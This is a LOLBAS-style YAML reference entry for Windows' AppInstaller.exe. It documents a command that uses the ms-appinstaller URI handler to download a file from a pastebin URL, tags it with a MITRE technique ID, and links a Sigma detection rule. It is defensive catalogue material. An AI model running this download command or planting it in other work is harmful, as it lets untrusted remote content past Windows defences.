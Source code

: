 ```yaml
---
Name: AppInstaller.exe
Description: Tool used for installation of AppX/MSIX applications on Windows 10
Author: 'Wade Hickey'
Created: 2020-12-02
Commands:
  - Command: start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
    Description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in INetCache.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/dns_query/dns_query_win_lolbin_appinstaller.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1333900137232523264
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

